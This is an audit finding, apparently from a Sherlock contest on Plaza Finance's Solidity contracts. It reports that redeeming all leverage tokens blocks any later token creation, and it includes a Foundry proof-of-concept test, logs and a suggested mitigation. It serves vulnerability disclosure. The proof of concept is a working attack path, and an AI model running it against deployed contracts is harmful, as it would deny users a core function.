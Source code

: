 Suave Vermilion Worm

High

# Redeeming all leverage tokens, will DoS their creation

### Summary

Redeeming all leverage tokens from the pool, will prevent any user from creating new ones, which is a DoS of a core functionality.

### Root Cause

Currently, every token that has been minted can be redeemed, because they are  possessed by users. However, in [getCreateAmount()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L306) we can see that if the `assetSupply` is 0, we are always reverting ([ref](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L330-L337)). This will lead to DoS of creation of new tokens.  

### Internal Pre-conditions

_No response_

### External Pre-conditions

1. Redeem all Leverage tokens

### Attack Path

1. Redeem all Leverage tokens, so the supply is 0.

### Impact

There will be no way to create any new Leverage token, which is a DoS of a core functionality.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

import {Pool} from "src/Pool.sol";
import {Token} from "test/mocks/Token.sol";
import {Utils} from "src/lib/Utils.sol";
import {Auction} from "src/Auction.sol";
import {BondToken} from "src/BondToken.sol";
import {PoolFactory} from "src/PoolFactory.sol";
import {Distributor} from "src/Distributor.sol";
import {OracleFeeds} from "src/OracleFeeds.sol";
import {LeverageToken} from "src/LeverageToken.sol";
import {Deployer} from "src/utils/Deployer.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {MockPriceFeed} from "test/mocks/MockPriceFeed.sol";

contract PoolPoC is Test {
    Pool pool;
    Token reserve;
    BondToken bond;
    LeverageToken lev;

    address governance = address(0x1);
    address user = address(0x2);

    uint256 constant RESERVE_AMOUNT = 13 ether;

    uint256 private constant CHAINLINK_DECIMAL_PRECISION = 10 ** 8;
    uint8 private constant CHAINLINK_DECIMAL = 8;

    function setUp() public {
        vm.startPrank(governance);
        address deployer = address(new Deployer());
        address oracleFeeds = address(new OracleFeeds());

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
        address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
        address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

        reserve = new Token("Balancer Pool Token", "balancerPoolToken", false);
        Token coupon = new Token("Coupon Token", "couponToken", false);

        // Deploy a mock price feed for the reserve token
        MockPriceFeed mockPriceFeed = new MockPriceFeed();
        mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

        // Set the price feed for the reserve token
        OracleFeeds(oracleFeeds).setPriceFeed(address(reserve), address(0), address(mockPriceFeed), 1 days);

        // Deploy the pool factory
        PoolFactory poolFactory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (governance, deployer, oracleFeeds, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
                )
            )
        );

        // Prepare the pool parameters
        PoolFactory.PoolParams memory params;
        params.fee = 0;
        params.reserveToken = address(reserve);
        params.sharesPerToken = 2500000;
        params.distributionPeriod = 90 days;
        params.couponToken = address(coupon);

        poolFactory.grantRole(poolFactory.GOV_ROLE(), governance);
        poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);

        // Mint enough tokens for the pool deployment
        reserve.mint(governance, RESERVE_AMOUNT);
        reserve.approve(address(poolFactory), RESERVE_AMOUNT);

        pool = Pool(
            poolFactory.createPool(
                params,
                RESERVE_AMOUNT,
                10 * 10 ** 18,
                1 * 10 ** 18,
                "Bond ETH",
                "bondETH",
                "Leverage ETH",
                "levETH",
                false
            )
        );

        bond = pool.bondToken();
        lev = pool.lToken();

        vm.stopPrank();
    }

    function testWeCannotBuyLevTokensAfterFullyRedeemingLevTokens() public {
        // The Leverage tokens are minted to the governance, because the pool is deployed by this address
        // Using governance we bypass the need to have PreDeposit contract, which deploys the pool
        // The tokens from governance are sent to the user, simulating the PreDeposit claim functionality
        console.log("Governance lev balance: ", lev.balanceOf(governance));

        vm.startPrank(governance);
        lev.transfer(user, lev.balanceOf(governance));
        vm.stopPrank();

        console.log("User lev balance: ", lev.balanceOf(user));
        console.log("Governance lev balance: ", lev.balanceOf(governance));

        vm.startPrank(user);
        pool.redeem(Pool.TokenType.LEVERAGE, lev.balanceOf(user), 0);

        console.log("User lev balance after redeem: ", lev.balanceOf(user));
        console.log("User reserve balance after redeem: ", reserve.balanceOf(user));

        uint256 reserveAmount = reserve.balanceOf(user);

        vm.expectRevert(Pool.ZeroLeverageSupply.selector);
        pool.create(Pool.TokenType.LEVERAGE, reserveAmount, 0);

        vm.stopPrank();

        console.log("User lev balance after create: ", lev.balanceOf(user));
        console.log("User reserve balance after create: ", reserve.balanceOf(user));
    }
}
```

Logs:
```logs
        Governance lev balance:  1000000000000000000
        User lev balance:  1000000000000000000
        Governance lev balance:  0
        39000000
        39000000000000000000000
        User lev balance after redeem:  0
        User reserve balance after redeem:  12666666666666666666
        User lev balance after create:  0
        User reserve balance after create:  12666666666666666666
```

### Mitigation

Consider minting some tokens to address, who will never sell - Zero address, Governance address, Factory address or Pool address.